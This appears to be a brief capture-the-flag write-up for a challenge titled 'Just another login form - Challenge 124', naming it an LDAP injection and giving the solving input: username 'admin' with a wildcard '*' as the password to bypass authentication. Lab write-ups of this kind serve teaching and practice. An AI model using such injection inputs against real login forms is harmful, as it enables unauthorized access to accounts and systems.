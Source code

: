 # Just another login form - Challenge 124

This is a classic LDAP injection, let's use these parameters to win this challenge:

```
username: admin
password: *
```
